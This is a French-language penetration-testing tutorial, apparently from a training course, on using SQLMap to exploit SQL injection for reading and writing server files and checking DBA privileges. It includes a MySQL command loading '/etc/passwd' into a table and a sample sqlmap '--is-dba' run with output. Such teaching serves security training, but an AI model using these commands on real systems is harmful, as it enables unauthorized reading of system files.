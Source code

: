 Exploitation du système d'exploitation
======================================

* * * * *

SQLMap a la capacité d'utiliser une injection SQL pour lire et écrire des fichiers à partir du système local en dehors du SGBD. SQLMap peut également tenter de nous donner l'exécution directe de commandes sur l'hôte distant si nous disposions des privilèges appropriés.

* * * * *

Lecture/écriture de fichier
---------------------------

La première partie de l'exploitation du système d'exploitation via une vulnérabilité d'injection SQL consiste à lire et à écrire des données sur le serveur d'hébergement. La lecture de données est bien plus courante que l'écriture de données, strictement privilégiée dans les SGBD modernes, car elle peut conduire à une exploitation du système, comme nous le verrons. Par exemple, dans MySql, pour lire des fichiers locaux, l'utilisateur de la base de données doit avoir le privilège `LOAD DATA`et `INSERT`, pour pouvoir charger le contenu d'un fichier dans une table puis lire cette table.

Un exemple d'une telle commande est :

-   `LOAD DATA LOCAL INFILE '/etc/passwd' INTO TABLE passwd;`

Bien que nous n'ayons pas nécessairement besoin de privilèges d'administrateur de base de données (DBA) pour lire des données, cela devient de plus en plus courant dans les SGBD modernes. Il en va de même pour d'autres bases de données courantes. Néanmoins, si nous disposons des privilèges DBA, il est alors beaucoup plus probable que nous disposions de privilèges de lecture de fichiers.

* * * * *

Vérification des privilèges DBA
-------------------------------

Pour vérifier si nous avons les privilèges DBA avec SQLMap, nous pouvons utiliser l' `--is-dba`option :

```
dsgsec@htb[/htb]$ sqlmap -u "http://www.example.com/case1.php?id=1" --is-dba

        ___
       __H__
 ___ ___[)]_____ ___ ___  {1.4.11#stable}
|_ -| . [)]     | .'| . |
|___|_  ["]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

[*] starting @ 17:31:55 /2020-11-19/

[17:31:55] [INFO] resuming back-end DBMS 'mysql'
[17:31:55] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
...SNIP...
current user is DBA: False

[*] ending @ 17:31:56 /2020-11-19

```
